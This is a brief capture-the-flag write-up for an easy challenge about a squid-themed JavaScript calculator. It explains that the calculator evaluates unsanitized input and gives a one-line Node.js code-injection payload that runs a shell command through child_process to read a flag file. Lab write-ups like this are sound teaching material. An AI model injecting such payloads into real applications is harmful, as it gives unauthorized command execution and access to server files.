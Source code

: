 # Info
Difficulty: Easy
# Desc
>In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑
# Writeup

This challenge require us to exploit the code injection in the calculator feature.
It can be exploited in one line, since the application doesn't do any sanitization or filtering.
```Javascript
require("child_process").execSync("cat /flag.txt").toString();
```